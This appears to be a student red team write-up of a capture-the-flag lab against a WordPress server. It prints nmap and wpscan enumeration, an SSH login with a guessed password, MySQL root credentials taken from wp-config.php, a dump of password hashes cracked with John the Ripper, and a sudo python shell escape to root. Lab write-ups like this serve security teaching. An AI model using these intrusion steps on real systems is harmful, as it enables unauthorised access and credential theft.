 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

## Exposed Services
Nmap scan results for each machine reveal the below services and OS details:  
~~~
nmap -sV 192.168.1  
~~~

![red1](https://user-images.githubusercontent.com/32025331/155894956-f1c31fe2-82f8-4a57-a74d-95c5a0dda68f.PNG)

This scan identifies the services below as potential points of entry:  
  
Target 1  
- OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)  
- Apache httpd 2.4.10 ((Debian))  
  
The following vulnerabilities were identified on each target:
- Target 1
- Weak server password
- Unsalted hashed passwords
- Unpatched WordPress software
  
 ## Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:


**flag1{b9bbcb33e11b80be759c4e844862482d}**
Tools used: dirb, wpscan  
- Using dirb we were able to find a wordpress page: 192.168.1.110/wordpress  
- From there we ran wpscan: 
~~~
wpscan –url http://192.168.1.110/wordpress
~~~
![red2](https://user-images.githubusercontent.com/32025331/155894957-b9e4c47b-09d7-43ff-9d0f-d4a3ef808915.PNG)

We then found two login names: Steven and Michael  
![red3](https://user-images.githubusercontent.com/32025331/155894958-c2fc6d12-f3ff-47b4-93a7-9a038cbdac2a.PNG)
By sheer luck, we guessed the password without brute force:  
~~~
- ssh michael@192.168.1.110
- Password:  michael
cd ../../var/www/html
grep -RE flag1
~~~
![red4](https://user-images.githubusercontent.com/32025331/155894959-9c35c8ed-fc7c-4049-8b13-c03f6d785452.PNG)
  
**flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**  
- Follow same steps as flag 1 to ssh into the server  
~~~ 
cd ../../var/www/
grep -RE flag2
~~~


**flag3{afc01ab56b50591e7dccf93122770cd2}**  
**flag4{715dea6c055b9fe3337544932f2941ce}**  
Tools used: SSH, MySQL  
~~~
ssh michael@192.168.1.110
Password: michael
cd /var/www/html/wordpress
~~~

~~~
nano wp-config.php  
mysql -u root -pR@v3nSecurity  
~~~

**Flag 4 from Steven’s account:  **  
- Tools used: SSH, MySQL, johntheripper  
- Using the MySQL credentials from before:  
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select user_login, user_pass from wp_users;
~~~
![red5](https://user-images.githubusercontent.com/32025331/155894960-bc91d0f1-f6ac-4d95-bc81-c3027734bba8.PNG)
This is where we found the hashed passwords.  
Exit back out to Kali. From here we can use John the Ripper:  
![red6](https://user-images.githubusercontent.com/32025331/155894961-05ed83c8-ab77-40f0-b8e0-33995815607d.PNG)
SSH into the webserver using Steven’s credentials:  
~~~
Ssh steven@192.168.1.110
Password: pink84
~~~
Now we run a python exploit:
~~~
sudo /usr/bin/python -c 'import os;os.system("/bin/sh")'
cd root
cat flag4.txt
~~~
[picture]
